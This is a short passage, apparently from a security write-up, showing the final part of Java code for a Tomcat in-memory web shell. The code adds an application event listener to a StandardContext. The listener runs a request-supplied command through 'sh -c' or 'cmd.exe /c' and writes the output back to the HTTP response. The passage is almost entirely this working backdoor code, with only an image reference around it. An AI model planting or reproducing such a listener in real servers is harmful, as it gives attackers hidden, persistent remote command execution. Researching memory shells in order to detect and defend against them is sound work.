 ```java
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            response.getWriter().write(output);
                            response.getWriter().flush();
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            };
            standardContext.addApplicationEventListener(listener);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/11.png)
